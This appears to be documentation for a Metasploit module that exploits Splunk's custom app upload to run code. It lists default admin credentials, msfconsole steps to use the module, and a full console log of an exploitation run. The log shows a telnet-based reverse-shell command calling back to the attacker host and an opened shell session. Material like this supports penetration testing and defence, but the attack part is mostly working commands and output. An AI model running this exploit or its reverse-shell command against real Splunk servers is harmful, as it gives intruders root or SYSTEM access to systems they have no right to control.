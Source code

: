 ## Vulnerable Application

This module exploits a feature of Splunk whereby a custom application can be
uploaded through the web based interface. Through the \'script\' search command a
user can call commands defined in their custom application which includes arbitrary
perl or python code. To abuse this behavior, a valid Splunk user with the admin
role is required. By default, this module uses the credential of "admin:changeme",
the default Administrator credential for Splunk. Note that the Splunk web interface
runs as SYSTEM on Windows, or as root on Linux by default. This module has been
tested successfully against Splunk 5.0, 6.1, 6.1.1 and 7.2.4.
Version 7.2.4 has been tested successfully against OSX as well.

## Verification Steps

  1. Start msfconsole
  2. Do: ```use exploit/multi/http/splunk_upload_app_exec```
  3. Set required variables (you will need admin credentials)
  4. Do: ```SET TARGET 1```
  5. Do: ```SET RHOST 192.168.1.1```
  6. Do: ```SET USERNAME admin```
  7. Do: ```SET PASSWORD changeme```
  8. You should get a reverse shell on port 4444 via the predefined handler.

## External Demo
[First PoC](http://blog.7elements.co.uk/2012/11/splunk-with-great-power-comes-great-responsibility.html) <br>
[Metasploit module how-to](http://blog.7elements.co.uk/2012/11/abusing-splunk-with-metasploit.html)<br>
[SPLUNK API](http://docs.splunk.com/Documentation/Splunk/latest/SearchReference/Script)<br>

## Options

  **EnableOverwrite**
  Overwrites an app of the same name. Needed if you change the app code in the tgz.
  Is not enabled by default.

## Scenarios

### Testing against 7.2.4 running on OSX

  Given admin credentials we can upload the custom app to SPLUNK, which will provide us with a reverse shell, triggered by the 'search' field API.

  ```
msf5 exploit(multi/http/splunk_upload_app_exec) >
msf5 exploit(multi/http/splunk_upload_app_exec) > set RHOST 172.16.165.1
RHOST => 172.16.165.1
msf5 exploit(multi/http/splunk_upload_app_exec) > set password splunksplunk
password => splunksplunk
msf5 exploit(multi/http/splunk_upload_app_exec) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Automatic
   1   Splunk >= 7.2.4 / Linux
   2   Splunk >= 7.2.4 / Windows
   3   Splunk >= 7.2.4 / OSX
   4   Splunk >= 5.0.1 / Linux
   5   Splunk >= 5.0.1 / Windows


msf5 exploit(multi/http/splunk_upload_app_exec) > set target 3
target => 3
msf5 exploit(multi/http/splunk_upload_app_exec) > exploit

[*] Started reverse TCP double handler on 172.16.165.206:4444
[*] Using command: sh -c '(sleep 3733|telnet 172.16.165.206 4444|while : ; do sh && break; done 2>&1|telnet 172.16.165.206 4444 >/dev/null 2>&1 &)'
[*] Authenticating...
[*] Fetching state token from /en-US/manager/appinstall/_upload
[*] Uploading file upload_app_exec.tgz
[+] upload_app_exec successfully uploaded
[*] Invoking script command
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 8kNbt70jYB3aJKPm;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "sh: line 2: Connected: command not found\r\nsh: line 3: Escape: command not found\r\n8kNbt70jYB3aJKPm\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (172.16.165.206:4444 -> 172.16.165.1:51512) at 2019-03-17 22:12:33 +0100
  ```
